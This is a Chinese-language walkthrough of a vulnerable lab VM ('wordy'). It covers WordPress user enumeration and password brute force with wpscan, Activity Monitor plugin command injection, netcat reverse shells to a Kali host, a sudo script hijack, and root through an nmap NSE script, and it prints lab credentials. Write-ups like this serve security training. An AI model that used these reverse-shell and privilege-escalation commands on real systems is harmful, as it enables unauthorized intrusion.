目标发现



192.168.1.129

信息搜集



目标开启了22与80，访问80端口,发现解析错误，dns配置
```
vim /etc/hosts
192.168.1.129   wordy
:wq
```

成功访问



目录扫描



发现是wordpress的后台，那么直接使用wpscan进行信息搜集

wpscan --url wordy -e u



发现了五个用户名，存入1.txt,对其网站进行爆破

wpscan --url wordy -U 1.txt -P rockyou.txt

爆出来账号mark 密码helpdesk01



登录



发现安装了activity monitor,，发现命令执行




反弹shell至kali
```
nc -e /bin/bash 192.168.1.128 4444
```

继续使用python获取交互模式
```
python -c 'import pty;pty.spawn("/bin/bash")'
```



进入/home/mark/stuff发现账号graham密码GSo7isUM1D4，登录，sudo -l



发现可以执行jen的一个sh脚本，查看脚本内容发现是备份，我们可以直接把脚本里面的内容替换成反弹shell的内容

```
echo 'nc -e /bin/bash 192.168.1.128 5555' >backups.sh
sudo -u jens ./backups.sh
```
接下来就得到了jens的shell，进入交互模式，sudo-l



发现nmap

利用nmap能够执行脚本的功能，将/bin/sh写入到脚本中，令其执行，获取root权限：
```
echo 'os.execute("/bin/sh")' > /tmp/xl.nse
sudo nmap --script=/tmp/xl.nse
```